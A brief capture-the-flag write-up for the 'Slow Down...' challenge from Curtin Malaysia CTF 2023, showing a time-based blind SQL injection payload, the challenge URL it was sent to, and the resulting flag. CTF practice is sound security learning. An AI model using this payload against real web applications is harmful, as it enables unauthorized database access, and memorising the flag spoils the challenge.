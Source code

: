 # Slow Down...

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/b4586f40-f681-4500-9be5-7464803b74bf)

## Solution

For this challenge I got redirected to amin page soo I try my payload sqli time based error: ?%27XOR(if(now()=sysdate(),sleep(5*5),0))OR%27

I modified at link for this 
http://curtinctfmy-1946797319.ap-southeast-2.elb.amazonaws.com:8000/blindsqli.php?user=admin?%27XOR(if(now()=sysdate(),sleep(5*5),0))OR%27

and then the page delay about 20 seconds shows that the payload works and it has vulnerabilities soo after waiting we got the flag.

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/3a27e841-f248-4778-a1ff-65607a8f962e)

## Flag

CURTIN_CTF{5l0wpOk3}

